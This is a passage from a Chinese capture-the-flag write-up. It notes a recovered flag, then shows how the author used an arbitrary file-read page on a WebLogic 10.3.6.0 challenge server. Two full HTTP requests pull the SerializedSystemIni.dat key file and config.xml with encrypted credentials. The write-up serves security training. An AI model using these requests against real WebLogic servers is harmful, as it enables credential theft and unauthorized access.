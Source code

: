 最终在第3列成功的拿到了flag：

> 3,TEST123,FLAG{THISISFAKE},**FLAG{FLAG_1S_H2}**

### weblogic

虽然weblogic 10.3.6.0有很多漏洞，但是都被作者堵得差不多了，然后作者提供了一个任意文件浏览。

先拿到dat文件：

```http
GET /file.jsp?file=security/SerializedSystemIni.dat HTTP/1.1

Host: 81.69.241.44:7011

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close


```

该请求返回的值会显示乱码，最好是直接下载，去除HTTP相应头，剩下纯数据。

再拿密文：

```http
GET /file.jsp?file=config/config.xml HTTP/1.1

Host: 81.69.241.44:7011

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close


```
